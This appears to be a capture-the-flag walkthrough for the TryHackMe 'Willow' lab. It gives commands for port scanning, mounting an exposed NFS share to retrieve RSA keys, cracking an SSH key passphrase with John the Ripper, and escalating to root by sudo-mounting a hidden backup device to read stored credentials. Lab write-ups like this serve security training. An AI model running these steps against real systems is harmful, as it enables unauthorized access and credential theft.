


# Willow

## Scanning

```bash
furious 10.10.192.59
nmap -sC -sV -p 22,111,2049,80 10.10.192.59 -n -Pn -oN targeted
```


## 80


we try with hexadecimal to ascii


## 2049

```bash
showmount -e 10.10.192.59
```

> ```bash
> Export list for 10.10.192.59:
> /var/failsafe *
> ```

```bash 
mkdir /mnt/Willow
mount -t nfs 10.10.192.59:/var/failsafe /mnt/Willow -o nolock
ls /mnt/Willow
# rsa_keys
cp /mnt/Willow/rsa_keys .
cat rsa_keys
```


I'm using https://www.aldeid.com/wiki/TryHackMe-Willow to decrypt the message that we have found, with the Private key Pair from rsa_keys.


```bash
sudo ssh -i id_rsa 10.10.192.59
```




```bash
locate 2john| grep ssh
# /usr/share/john/ssh2john.py
/usr/share/john/ssh2john.py id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



Now we could enter with ssh


### user flag

we code the image with base 64 to save the file in user.64 and decode it in our machine

```bash
# victim machine
base64 user.jpg
# attacker machine
base64 -d user.64 > user.png
fim user.png
```


## Privilege Scalation

```bash
sudo -l
```


```bash
ls -l /dev
```


```bash
mkdir bkup
sudo /bin/mount /dev/hidde_backup /home/willow/bkup
cd bkup
cat creds.txt
```


Now we have to enter to root with `su root`. But when we see the ``root.txt`` file we see that we have to find another file...


we use the passphrase `7QvbvBTvwPspUK` in the user.png file that we found before:

```bash
steghide extract -sf user.png
```

